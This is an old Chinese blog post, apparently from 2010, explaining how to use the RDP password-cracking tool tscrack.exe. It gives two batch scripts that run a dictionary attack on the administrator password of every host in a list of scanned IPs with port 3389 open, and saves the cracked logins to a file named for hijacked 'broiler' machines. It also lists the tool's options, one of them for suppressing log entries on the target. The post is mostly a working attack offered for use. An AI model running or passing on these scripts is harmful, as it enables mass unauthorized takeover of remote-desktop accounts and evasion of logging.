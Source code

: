 ```yaml
---
layout: post
title: tscrack .exe用法
date: 2010-06-26 04:37
author: admin
comments: true
categories: []
---
```

<div>
<h2 id="t_40cb0b1b010007rq">tscrack?.exe用法</h2>
<div><em><span style="text-decoration: underline;"></span></em></div>
</div>
<div id="sina_keyword_ad_area2">

3389.bat：

----------------------------------------------------------------------------------------------

@ if not exist 3389.txt goto noscan

@ for /f "tokens=1 delims="%%i in (3389.txt) do call?? hack.bat %%i

:noscan

@ echo 3389.txt no faild or scan faild

--------------------------------------------------------------------------------------------------

hack.bat：

---------------------------------------------------------------------------------------------------

@ if not exist tscrack.exe goto noscan

@ tscrack %i -l administrator -w pass.dic &gt;&gt;jieguo.txt

:noscan

@ echo tscrack.exe no faild or scan faild

--------------------------------------------------------------------------------------

将以上文件放入tscrack.exe 所在的目录执行3389.bat就可以了

3389.bat是主要破解文件

3389.txt是开放3389端口机器的ip

hack.bat是3389.bat的辅助文件

jieguo.txt不要说了吧

pass.dic是用易优字典生成器生成的密码文件

辅助资料：

终端服务密码破解: tscrack.exe

参数说明
-h 显示使用帮助
-v 显示版本信息
-s 在屏幕上打出解密能力
-b 密码错误时发出的声音
-t 同是发出多个连接（多线程）
-N Prevent System Log entries on targeted server
-U 卸载移除tscrack组件
-f 使用－f后面的密码
-F 间隔时间（频率）
-l 使用－l后面的用户名
-w 使用－w后面的密码字典
-p 使用－p后面的密码
-D 登录主页面
用法示例
tscrack 192.168.0.1 -l administrator -w pass.dic 远程用密码字典文件暴破

主机的administrator的登陆密码
tscrack 192.168.0.1 -l administrator -p 123456 用密码123456远程登陆

192.168.0.1的administrator用户
@if not exist ipcscan.txt goto noscan
@for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i
nscan
@echo 3389.txt no find or scan faild
(①存为3389.bat) （假设现有用SuperScan或其它扫锚器扫到一批开有3389的主

机IP列表文件3389.txt)
3389.bat意思是：从3389.txt文件中取一个IP，接着运行hack.bat
@if not exist tscrack.exe goto noscan
@tscrack %1 -l administrator -w pass.dic &gt;&gt;rouji.txt
:noscan
@echo tscrack.exe no find or scan faild
(②存为hack.bat) (运行3389.bat就OK，且3389.bat、hack.bat、3389.txt、

pass.dic与tscrack.exe在同一个目录下；就可以等待结果了)
hack.bat意思是：运行tscrack.exe用字典暴破3389.txt中所有主机的

administrator密码，并将破解结果保存在rouji.txt文件中。

</div>
